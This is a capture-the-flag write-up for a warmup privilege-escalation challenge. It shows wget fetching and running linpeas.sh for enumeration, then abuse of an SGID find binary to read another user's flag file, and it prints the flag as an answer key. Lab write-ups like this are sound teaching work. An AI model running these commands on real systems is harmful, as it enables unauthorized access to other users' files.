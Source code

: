 +++
title = "Finder's Fee"
description = "You gotta make sure the people who find stuff for you are rewarded well!\n\nEscalate your privileges and uncover the flag.txt in the finder user's home directory.\n\nPress the Start button in the top-right to begin this challenge.\nConnect with:\n\n# Password is \"userpass\"\nssh -p 30668 user@challenge.ctf.games"
authors = ["mango", "Tyr", "cstef"]
date = 2024-09-30

[taxonomies]
categories = ["warmups"]
+++

## Description

You gotta make sure the people who find stuff for you are rewarded well!

Escalate your privileges and uncover the flag.txt in the finder user's home directory.

Press the Start button in the top-right to begin this challenge.

----

First, we need to connect to the machine via SSH with the following command:

```bash
# Password is "userpass"
ssh -p <port> user@challenge.ctf.games
```

At this point, we are connected as `user`, and we know the `flag.txt` file is located in the `finder` user's home directory (`/home/finder/flag.txt`).
It appears that we can use `wget`, so let's download `linpeas.sh` to help identify potential privilege escalation vectors:

```bash
wget -q https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

However, the machine crashes consistently when running `linpeas.sh`. To avoid this, we can disable some of the more resource-intensive checks and try again:

```bash
./linpeas.sh -o interesting_files,users_information,software_information,interesting_perms_files
```

Upon running this, we found a privilege escalation opportunity involving the `find` command, which has the `SGID` bit set with the user `finder`.

![](files/bSv4Edv.png)

Using this, we can read the `flag.txt` file with the following command:

```bash
find /home/finder/flag.txt -exec cat {} \;
```

The flag is: `flag{5da1de289823cfc200adf91d6536d914}`